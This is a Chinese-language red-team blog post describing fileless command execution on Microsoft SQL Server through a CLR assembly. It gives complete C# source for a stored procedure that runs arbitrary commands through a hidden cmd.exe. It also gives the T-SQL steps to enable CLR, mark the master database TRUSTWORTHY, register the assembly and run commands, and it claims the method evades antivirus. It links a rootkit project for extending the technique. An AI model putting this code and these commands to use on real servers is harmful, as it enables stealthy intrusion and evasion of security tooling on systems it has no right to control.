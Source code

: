 ```yaml
---
title: 利用MSSQL CLR 实现不落地命令执行
date: 2023-02-05
categories: [红蓝对抗]
tags: [红蓝对抗, MSSQL]
---
```


## 0X00 前言 

​	在我们想要通过SQL Server来执行命令的时候，我们通常的做法是通过`xp_cmdshell`和`sp_OACreate`来实现执行命令的需求，然而在某些条件下，我们在利用这两个存储过程的时候经常会遇到被查杀拦截等情况，这些情况导致我们无法达到我们执行的命令的需求，本文将介绍另外一种方法：利用SQL Server CLR来实现不落地执行命令的需求。

## 0X01 什么是CLR

​	CLR是微软的公共语言运行库，是 .NET Framework 的核心，为所有 .NET Framework 代码提供执行环境。 在 CLR 中运行的代码称为托管代码。 CLR 提供执行程序所需的各种函数和服务，包括实时 (JIT) 编译、分配和管理内存、强制类型安全、异常处理、线程管理和安全性。使用在 Microsoft SQL Server 中驻留的 CLR（称为 CLR 集成），可以在托管代码中编写存储过程、触发器、用户定义函数、用户定义类型和用户定义聚合。 由于托管代码在执行之前才编译为本机代码，因此在某些情形下可以大幅提高性能。

## 0X02 基于CLR的恶意dll

示例代码：

```c#
using System;
using System.Data;
using System.Data.SqlClient;
using System.Data.SqlTypes;
using System.Diagnostics;
using System.Text;
using Microsoft.SqlServer.Server;

public partial class StoredProcedures
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void ExecCommand (string cmd)
    {
        SqlContext.Pipe.Send("Command is running, please wait.");
        SqlContext.Pipe.Send(RunCommand("cmd.exe", " /c " + cmd));
    }
    public static string RunCommand(string filename,string arguments)
    {
        var process = new Process();

        process.StartInfo.FileName = filename;
        if (!string.IsNullOrEmpty(arguments))
        {
            process.StartInfo.Arguments = arguments;
        }

        process.StartInfo.CreateNoWindow = true;
        process.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
        process.StartInfo.UseShellExecute = false;

        process.StartInfo.RedirectStandardError = true;
        process.StartInfo.RedirectStandardOutput = true;
        var stdOutput = new StringBuilder();
        process.OutputDataReceived += (sender, args) => stdOutput.AppendLine(args.Data);
        string stdError = null;
        try
        {
            process.Start();
            process.BeginOutputReadLine();
            stdError = process.StandardError.ReadToEnd();
            process.WaitForExit();
        }
        catch (Exception e)
        {
            SqlContext.Pipe.Send(e.Message);
        }

        if (process.ExitCode == 0)
        {
            SqlContext.Pipe.Send(stdOutput.ToString());
        }
        else
        {
            var message = new StringBuilder();

            if (!string.IsNullOrEmpty(stdError))
            {
                message.AppendLine(stdError);
            }

            if (stdOutput.Length != 0)
            {
                message.AppendLine("Std output:");
                message.AppendLine(stdOutput.ToString());
            }
            SqlContext.Pipe.Send(filename + arguments + " finished with exit code = " + process.ExitCode + ": " + message);
        }
        return stdOutput.ToString();
    }
}
```

在编译的时候要注意这个地方选择生成`.sql`文件

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/1.png)

同时要将权限级别改为`UNSAFE`，因为我们要调用外部程序，必须设置为`UNSAFE`才可以。

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/2.png)

这段代码编译后会产生这几个文件![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/3.png)

我们可以使用SQL Server来引用这个dll文件去执行命令，这种方式这里不加以赘述，这里将讨论无文件落地的命令执行。

## 0X03 无文件落地的命令执行

在SQL Server 2016以后，默认禁用了基于CLR的DLL文件，我们可以通过如下命令解除禁用

```mssql
sp_configure 'clr enabled',1
GO
RECONFIGURE
GO
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/4.png)

```mssql
ALTER DATABASE master SET TRUSTWORTHY ON;//确认可信任关系
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/5.png)

接下来我们需要用上述目录中生成的`.sql`文件中的一段代码来创建我们的存储过程

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/6.png)

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/7.png)

可见成功创建了一个clr的程序集，然后我们使用如下代码创建存储过程

```mssql
CREATE PROCEDURE [dbo].[ExecCommand]
@cmd NVARCHAR(MAX)
AS EXTERNAL NAME [clr].[StoredProcedures].[ExecCommand]
go
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/8.png)

可见成功创建了存储过程，然后执行命令

```mssql
exec dbo.execcommand 'whoami'
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/9.png)

## 0x04 小结

​	CLR的命令执行可以在一些情况下bypass杀软达到我们预期执行命令的需求，笔者在这里只是给出简单的demo代码，具体复杂的实现，读者可以自行研究，或可魔改或可直接使用[这个项目](https://github.com/mindspoof/MSSQL-Fileless-Rootkit-WarSQLKit/)实现其他功能。

### 注：本文仅用于安全研究和学习之用